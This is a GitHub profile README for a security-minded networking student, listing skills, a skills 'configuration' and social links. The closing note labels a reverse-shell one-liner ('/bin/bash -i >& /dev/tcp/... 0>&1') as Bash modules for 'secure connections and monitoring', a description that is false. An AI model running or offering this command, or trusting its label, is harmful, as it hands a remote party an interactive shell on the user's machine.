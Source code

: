 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

<div style="display: flex; align-items: center;">

  <div style="flex: 1; text-align: right;">
    ![Cybersecurity GIF]([https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExcHFhOWVsNXFrYWhqazV6eXVvamxlazB6dmxwcmg1OGQxcDJucGNuNyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/2IudUHdI075HL02Pkk/giphy.webp](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExcHFhOWVsNXFrYWhqazV6eXVvamxlazB6dmxwcmg1OGQxcDJucGNuNyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/2IudUHdI075HL02Pkk/giphy.webp)) <!-- Replace with a more relevant GIF if needed -->
  </div>

</div>

---

### ⚙️ Configuration

<configuration>

  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  🔍 **SOC Researcher**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ⚙️ **SIEM Configuration**  

</configuration>

---

### 💻 Skills

- **System and Network Administration**  
- **Advanced Network Security**  
- **SOC Research and Analysis**  
- **Ethical Hacking & Penetration Testing**  
- **Real-time System Monitoring and Optimization**  
- **SIEM Configuration and Security Automation**  

---

### 🤝 Connect with Me

[![GitHub](https://img.shields.io/badge/GitHub-Errabab-black?style=for-the-badge&logo=github)](https://github.com/Errabab)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-Errabab-blue?style=for-the-badge&logo=linkedin)](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[![X (Twitter)](https://img.shields.io/badge/X-_jk_29-blue?style=for-the-badge&logo=x)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1
